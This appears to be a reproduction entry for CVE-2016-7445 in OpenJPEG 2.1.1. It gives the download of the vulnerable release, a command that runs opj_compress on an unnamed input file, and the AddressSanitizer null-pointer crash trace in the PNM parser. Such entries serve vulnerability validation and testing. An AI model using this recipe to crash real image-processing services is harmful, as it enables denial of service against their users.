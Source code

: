 Source code:
wget https://github.com/uclouvain/openjpeg/archive/v2.1.1.tar.gz

Command:
> cd /path/to/compile/source
> ./bin/opj_compress -i $FILE -o null.j2k

Expected Output:
ASAN:DEADLYSIGNAL
=================================================================
==1612==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x55555561738d bp 0x7fffffff8030 sp 0x7fffffff8010 T0)
==1612==The signal is caused by a READ memory access.
==1612==Hint: address points to the zero page.
    #0 0x55555561738c in skip_white /exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/src/bin/jp2/convert.c:1331
    #1 0x555555617426 in skip_int /exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/src/bin/jp2/convert.c:1347
    #2 0x555555618656 in read_pnm_header /exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/src/bin/jp2/convert.c:1493
    #3 0x55555561961c in pnmtoimage /exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/src/bin/jp2/convert.c:1582
    #4 0x55555560781b in main /exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/src/bin/jp2/opj_compress.c:1722
    #5 0x7ffff4f05c86 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x21c86)
    #6 0x5555555fb479 in _start (/exp/validate/openjpeg/CVE-2016-7445/openjpeg-2.1.1/bin/opj_compress+0xa7479)

